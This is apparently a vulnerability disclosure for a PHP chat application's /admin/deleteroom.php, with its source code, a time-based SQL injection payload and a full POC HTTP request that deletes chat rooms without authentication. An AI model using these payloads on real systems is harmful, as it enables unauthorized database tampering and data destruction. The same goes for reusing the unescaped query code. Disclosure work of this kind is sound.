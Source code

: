 # Chat System has unauthorized access vulnerability in `/admin/deleteroom.php`





## supplier



https://code-projects.org/online-notice-board-using-php-source-code/



## Vulnerability file



/admin/deleteroom.php



## describe



Chat System allows attackers to perform unauthorized actions through this interface. Due to the lack of session authentication and other security measures, attackers can execute SQL injection and arbitrary room deletion.

- **(Parameter key-value: id=4' or sleep(5)#&del=1)** (SQL injection)
- **(Parameter key-value: id={value}&del=1)** (`value` represents the `id`, allowing unauthorized enumeration and deletion)



## **Code analysis**



```php
<?php
	include('../conn.php');
	
	if (isset($_POST['del'])){
		$id=$_POST['id'];
		
		mysqli_query($conn,"delete from `chatroom` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat` where chatroomid='$id'");
		mysqli_query($conn,"delete from `chat_member` where chatroomid='$id'");
	}
?>
```

The lack of session and other authentication mechanisms allows any user to perform operations.



## POC

```http
POST /admin/deleteroom.php HTTP/1.1
Host: 127.0.0.1:7777
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 24
Origin: http://127.0.0.1:7777
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://127.0.0.1:7777/admin/
Cookie: PHPSESSID=qua31ea51oa01tdbtr5cqapm4v
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=1&del=1
```



## Demonstration Example



**The current database table: `chatroom`.**



![image-20250101184817724](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101184817724.png)



**Operation performed by an unauthenticated user.**



![image-20250101184515554](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101184515554.png)





**Execution Result: `chatroomid = 2` has been deleted.**



![image-20250101184605794](C:\Users\sinon\AppData\Roaming\Typora\typora-user-images\image-20250101184605794.png)